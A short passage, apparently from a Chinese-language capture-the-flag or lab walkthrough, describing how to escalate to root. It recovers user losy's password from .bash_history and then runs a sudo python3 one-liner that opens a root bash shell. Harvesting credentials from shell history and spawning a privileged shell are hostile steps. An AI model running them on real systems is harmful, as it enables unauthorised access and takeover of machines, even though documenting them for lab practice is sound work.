

# 提权获取root

接下来进一步获取root权限：查看.bash_history文件，可以找到losy的密码，并且losy可以直接进行sudo。因此利用我们使用过多次的python就可以得到root权限。

sudo python3 -c 'import os; os.system("/bin/bash")'